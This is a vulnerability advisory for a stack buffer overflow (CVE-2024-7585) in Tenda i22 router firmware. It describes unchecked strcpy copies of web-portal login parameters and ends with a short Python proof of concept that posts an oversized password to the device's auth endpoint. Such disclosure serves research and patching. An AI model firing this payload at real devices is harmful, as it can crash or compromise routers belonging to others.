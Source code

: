 ## Overview

- Manufacturer's website: https://www.tenda.com.cn
- Firmware download website: https://www.tenda.com.cn/download/detail-2747.html

## Affected version

i22 V1.0.0.3(4687)

## Vulnerability details

In the i22 V1.0.0.3(4687) firmware has a stack overflow vulnerability in the `formApPortalWebAuth` function. This function accepts the `webUserName` parameter and the `webUserPassword` parameter from a POST request. Both of the parameters are later copied by `strcpy` directly to variables on the stack, causing a stack overflow.

![image1](image/1.png)

The `data` parameter is also a point of vulnerability, and will be copied to the stack variable in subsequent processing via `sprintf `or `strcpy`.

![2](image/2.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.244.3"
url = "http://" + ip + "/goform/apPortalAuth"
payload = b"a"*2000

data = {
    "webUserName": "BeaCox",
    "webUserPassword": payload,
    "data": "vulnerable"
}

response = requests.post(url, data=data)
print(response.text)
```

![demo](image/demo.png)

## CVE

CVE-2024-7585